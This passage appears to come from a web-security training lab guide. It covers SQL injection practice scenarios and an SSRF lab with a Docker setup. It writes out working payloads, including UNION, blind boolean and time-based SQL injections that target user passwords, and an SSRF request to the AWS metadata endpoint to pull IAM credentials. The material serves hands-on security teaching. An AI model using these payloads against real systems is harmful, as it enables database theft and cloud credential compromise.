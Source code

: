 #### Practice Scenarios
```sql
-- Scenario 1: Basic Union Injection
Target: /search.php?id=1
Payload: 1' UNION SELECT username,password FROM users--

-- Scenario 2: Blind Boolean Injection
Target: /product.php?id=1
Payload: 1' AND (SELECT SUBSTRING(username,1,1) FROM users WHERE id=1)='a'--

-- Scenario 3: Time-based Injection
Target: /login.php
Payload: admin' AND (SELECT SLEEP(5))--
```

---

## 🔬 Intermediate Labs

### 🌐 Advanced SSRF Exploitation Lab

#### Lab Overview
Explore advanced Server-Side Request Forgery techniques and bypass methods.

**Advanced Techniques:**
- Cloud metadata exploitation
- Internal network reconnaissance
- Protocol smuggling attacks
- Filter bypass methods
- Blind SSRF exploitation

#### Lab Environment
```yaml
# docker-compose.yml excerpt
services:
  ssrf-lab:
    image: ssrf-lab:latest
    ports:
      - "8002:80"
    environment:
      - CLOUD_METADATA_ENABLED=true
      - INTERNAL_SERVICES=redis,mysql,elasticsearch
```

#### Challenge Scenarios

##### Challenge 1: AWS Metadata Exploitation
```
Objective: Extract AWS credentials from metadata service
Target: http://lab.local:8002/fetch?url=
Payload: http://169.254.169.254/latest/meta-data/iam/security-credentials/
```
